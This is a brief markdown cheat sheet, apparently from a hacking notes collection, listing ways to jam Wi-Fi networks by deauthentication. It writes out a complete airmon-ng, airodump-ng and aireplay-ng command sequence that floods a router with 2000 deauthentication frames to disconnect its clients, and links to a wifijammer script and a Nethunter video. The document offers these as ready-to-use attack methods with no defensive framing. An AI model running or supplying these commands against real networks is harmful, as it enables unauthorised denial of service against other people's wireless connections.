 ## Method 1 - Airplay-ng

Tutorial https://www.youtube.com/watch?v=RdVIlMABYVc

```
airmon-ng start wlan0
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid xx:xx:xx:xx:xx:xx --channel 6 wlan0mon
aireplay-ng --deauth 2000 -a xx:xx:xx:xx:xx:xx wlan0mon
```

xx:xx:xx:xx:xx:xx is MAC address of the router

This command will send 2000 deauthentication frames to the access point with the MAC address specified, which could potentially cause devices connected to the access point to disconnect from the network.

## Method 2 - Wifijammer Script

https://github.com/DanMcInerney/wifijammer

Article https://en.kali.tools/?p=394

## Method 3 - Nethunter

https://www.youtube.com/watch?v=UiERtJs-xfE

